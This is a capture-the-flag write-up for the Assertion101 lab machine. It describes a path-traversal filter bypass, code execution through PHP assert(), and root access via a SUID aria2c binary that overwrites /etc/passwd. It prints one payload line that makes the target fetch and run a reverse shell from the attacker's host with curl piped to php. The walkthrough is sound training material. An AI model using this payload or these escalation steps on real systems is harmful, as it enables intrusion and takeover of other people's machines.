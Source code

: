 # Assertion101 | Aug 22, 2022

## Background

> Are you ready to assert yourself?

- Author: [Faisal Husaini](https://www.vulnhub.com/entry/assertion-1,495/)

- Released on: Sep 16, 2020

- Difficulty: Intermediate

> Overall difficulty for me: Medium

# Service Enumeration

As usual, scan the machine for open ports via `rustscan`!

**Rustscan Result:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a1.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a2.png)

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.6p1
80                | Apache httpd 2.4.29

## HTTP on Port 80

Always check the web server first, as it has the largest attack vectors.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a3.png)

The `index.php` might suffers path traversal? Let's test it out:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a4.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a5.png)

Looks like there is some sort of filter going on.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a6.png)

Maybe it's blocking `.` to prevent path traversal.

How about using URL encoding to bypass the filter?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a7.png)

Nope. How about double URL encoding?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a8.png)

Looks like it's bypassed?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a9.png)

Hmm... Weird. It should bypassed and could fetch `/etc/passwd`'s content.

At this moment, I'm stucked. Then I started to think the title of this machine is somewhat related to the path traversal. Let's google "assertion local file inclusion".

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a10.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a11.png)

Wow! I never know PHP `assert()` function is vulnerable to Local File Inclusion(LFI)! Let's test it to the target machine!

> Note: Mohamed F. did a great job explaining [this vulnerability](https://www.linkedin.com/pulse/php-assert-vulnerable-local-file-inclusion-mohamed-fakroud)!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a12.png)

Yes!! We now have LFI! Next step is to gain an initial foothold to the target system.

# Initial Foothold

Since we can execute any remote code to the target machine, we can leverage this to gain an initial foothold.

To do so, I'll first host a PHP reverse shell:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a13.png)

Then, we can use `curl`, pipe (`|`) and `php` to establish a reverse shell to us: (This is similar to PowerShell downloadstring trick.)

**Payload:**
```bash
http://192.168.129.94/index.php?page='.system("curl http://YOUR_IP/revshell.php | php").'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a14.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a15.png)

We're `www-data`!

**Stable Shell via `socat`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a16.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a17.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a18.png)

**local.txt:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a19.png)

# Privilege Escalation

## www-data to root

**SUID:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a20.png)

Weird binary with SUID bit set: `/usr/bin/aria2c`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a21.png)

It's owned by root! Let's investgate what is it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a22.png)

Looks like [GTFOBins](https://gtfobins.github.io/gtfobins/aria2c/) could found something interesting:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a23.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a24.png)

But it's not working. :(

Maybe this machine don't have outbound connection, so it doesn't work?? Anyway, let's try another method.

As I dig deeper to the `aria2c` binary, I found that the `-i` option also could read files.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a25.png)

Let's try reading `/etc/shadow`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a26.png)

I could read `/etc/shadow`, but all the hashes are uncrackable.

How about overwriting a file? Like `/etc/passwd`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a27.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a28.png)

Maybe?? Let's give it a shot.

First, copy and paste the `/etc/passwd`'s contents to the attacker machine:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a29.png)

Then, add a new user with root privilege:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a30.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a31.png)

Finally, overwrite the original `/etc/passwd` in the target machine:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a32.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a33.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a34.png)

YES!! We now can Switch User to the newly created user!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a35.png)

And we're root! :D

# Rooted

**proof.txt:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Assertion101/images/a36.png)

# Conclusion

What we've learned:

1. Path Traversal Filter Bypass
2. Local File Inclusion via `assert()` Function in PHP
3. Privilege Escalation via `aria2c` SUID Bit Set, Overwriting `/etc/passwd`